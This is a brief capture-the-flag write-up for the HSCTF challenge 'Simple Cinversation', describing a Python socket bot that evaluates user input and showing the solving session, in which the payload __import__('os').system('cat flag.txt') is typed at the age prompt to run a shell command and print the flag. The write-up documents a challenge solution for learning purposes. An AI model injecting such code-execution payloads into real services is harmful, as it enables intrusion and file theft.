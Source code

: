 # HSCTF - Simple Cinversation

## Desc

A simple bot in python (prabably over socket) asking you about your age.

## Vuln

The bot alows you to exec some python code.
Execute "ls" via os.system to find the "flag.txt"
Then just "cat" it!

## Sploit


```python
nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('cat flag.txt')                      
hsctf{plz_u5e_pyth0n_3}
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!
```
